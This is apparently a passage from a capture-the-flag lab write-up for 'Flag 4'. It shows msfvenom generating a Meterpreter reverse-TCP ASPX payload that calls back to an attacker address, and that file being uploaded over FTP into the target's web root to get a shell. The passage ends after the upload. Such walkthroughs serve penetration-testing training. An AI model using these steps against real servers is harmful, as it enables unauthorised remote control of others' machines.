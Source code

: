 
### Flag 4:

Can you compromise the target machine and retrieve the C://flag4.txt file?

After going through FTP and Web services, We found that the files in here are the one which is access through webpage, meaning we can upload a file in ftp and can be executed through webpage by accessing it. so let’s create a reverse shell to point the shell back to us, For that we’ll be using creating a reverse shell along with deploying a service to receive the connection and upload the shell script to ftp and accessed through webpage and gain access into the system.

Creating a reverse shell script

```bash
┌──(root㉿INE)-[~]
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.47.2 LPORT=1234 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of aspx file: 3658 bytes
```

Uploading the script   

```bash
┌──(root㉿INE)-[~]
└─# ftp target.ine.local
Connected to target.ine.local.
220 Microsoft FTP Service
Name (target.ine.local:root): david
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.aspx 
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49474|)
125 Data connection already open; Transfer starting.
100% |********************************************************************************************************************************************|  3705       26.56 MiB/s    --:-- ETA
226 Transfer complete.
3705 bytes sent in 00:00 (1.38 MiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||49476|)
125 Data connection already open; Transfer starting.
06-13-24  10:36AM       <DIR>          aspnet_client
05-31-25  01:45PM                   34 flag3.txt
06-13-24  10:34AM                99710 iis-85.png
06-13-24  10:34AM                  701 iisstart.htm
05-31-25  02:39PM                 3705 shell.aspx
226 Transfer complete.
```
